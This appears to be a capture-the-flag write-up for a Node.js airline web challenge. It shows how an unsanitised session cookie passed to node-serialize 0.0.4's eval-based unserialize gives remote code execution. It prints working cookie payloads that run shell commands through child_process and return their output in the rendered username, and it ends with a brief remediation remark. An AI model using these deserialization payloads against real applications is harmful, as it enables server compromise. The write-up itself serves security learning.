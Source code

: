 # HACKY HOLIDAYS AIRLINES

When examining the code, there were three notable parts that could turn into an attack vector.

* routes/login.js - post username,password
* routes/signup.js - post username,country,password
* routes/index.js - cookie session

These parts were examined further.

login.js and signup.js were code that quarries input values into the database, and no problem seemed to have been present.
It was possible that sequelize, which was used when quarrying, could contain an issue, but the possibility was determined to be low.
Also, after examining the github page of sequelize, updates for it were frequent and the version 6.17.0, which is the version used on this page, was not too far behind.

### index.js
```js
var cookieParser = require('cookie-parser');
var escape = require('escape-html');
var serialize = require('node-serialize');

module.exports = (app, globalConfig) => {
    app.use(cookieParser())
    app.get('/', function(req, res) {
      if (req.cookies.session){
        authorized = true;
          var cookieValue = new Buffer(escape((req.cookies.session)), 'base64').toString();
          console.log(cookieValue);
          var userInfo = serialize.unserialize(cookieValue);
          console.log(userInfo);
        if (userInfo.username) {
          res.render('index', { title: 'Home', username: userInfo.username , authorized: authorized});
        }
        } else {
        authorized = false;
        res.render('index', { title: 'Home', authorized: authorized });
      }
    });
};
```

In index.js, the node-serialize module was used to unserialize the session value from user input.
When investigating on the module, the first google page search immediately revealed a vulnerability in it.
<https://snyk.io/test/npm/node-serialize>


The version that had the vulnerability was 0.0.4, and reading through the package.json showed that the exact same version was being used.
Reading the payload provided by the vulnerability page made me realize that the controlling the string that gets delivered to the unserialize was possible, then running node js code was also possible.

### Provided payload
```js
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
serialize.unserialize(payload);
```

In index.js, the session value was running in the function unserialize with no restrictions as a parameter after decoding in base64. This meant that an attack could be made immediately,
Fixes were made to allow running the payload in the chrome dev tools.
It was also allowed to run in the window os, which was under use for testing.

### Test payload
```js
payload=String.raw`{"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ver', function(error, stdout, stderr) { console.log(stdout) });}()"}`
document.cookie=`session=${btoa(payload)}`
```

The following payload was inputed into the developer console and after the page was refreshed, a command line was successfully executed.
![](https://raw.githubusercontent.com/lukehyun/hacky_holidays_airlines/main/1.png)

The execution of a command line was observed as possible in a test environment, but in the actual page a console window was unobservable hence making it unusable.  
Because userinfo.username which is the return value of unserialize is being rendered, if the format {'username':'data for render'} was returned from the unserilize function, its return value can be seen in the browser.

### unserialize function
```js
exports.unserialize = function(obj, originObj) {
  var isIndex;
  if (typeof obj === 'string') {
    obj = JSON.parse(obj);
    isIndex = true;
  }
  originObj = originObj || obj;

  var circularTasks = [];
  var key;
  for(key in obj) {
    if(obj.hasOwnProperty(key)) {
      if(typeof obj[key] === 'object') {
        obj[key] = exports.unserialize(obj[key], originObj);
      } else if(typeof obj[key] === 'string') {
        if(obj[key].indexOf(FUNCFLAG) === 0) {
          obj[key] = eval('(' + obj[key].substring(FUNCFLAG.length) + ')');
        } else if(obj[key].indexOf(CIRCULARFLAG) === 0) {
          obj[key] = obj[key].substring(CIRCULARFLAG.length);
          circularTasks.push({obj: obj, key: key});
        }
      }
    }
  }

  if (isIndex) {
    circularTasks.forEach(function(task) {
      task.obj[task.key] = getKeyPath(originObj, task.obj[task.key]);
    });
  }
  return obj;
};
```

When reading through the unserialize function, all key values sent as parameters are executed in the eval function and its return value is overwritten to each key and the dictionay is returned again.
Therefore, in the test payload changing {"rce" to username will format the return value in the desired way.
Executing the command line was altered without using callback functions, but with execSync which immediately returns the run results.

The issue with this code is that it used eval to reverse a serialized function.
But it seemed using eval was the only way to achieve 
When searching for similar functions to replace, the serialize-javascript module was found, but it also stated that eval was to be used when reversing.
Therefore, when developing, if the serialize function must be used, then it is important to not include user input or include it only under strict formatting.
<https://github.com/yahoo/serialize-javascript#deserializing>


### payload printed in http response
```js
cmd='ver'
payload=String.raw`{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('${cmd}').toString();}()"}`
document.cookie=`session=${btoa(payload)}`
```

![](https://raw.githubusercontent.com/lukehyun/hacky_holidays_airlines/main/2.png)


### getting flag
Now using the payload above, the command line can be run on the actual page and the flag was retrieved with ls flag. 

![](https://raw.githubusercontent.com/lukehyun/hacky_holidays_airlines/main/3.png)
![](https://raw.githubusercontent.com/lukehyun/hacky_holidays_airlines/main/4.png)
![](https://raw.githubusercontent.com/lukehyun/hacky_holidays_airlines/main/5.png)
![](https://raw.githubusercontent.com/lukehyun/hacky_holidays_airlines/main/6.png)
![](https://raw.githubusercontent.com/lukehyun/hacky_holidays_airlines/main/7.png)
![](https://raw.githubusercontent.com/lukehyun/hacky_holidays_airlines/main/8.png)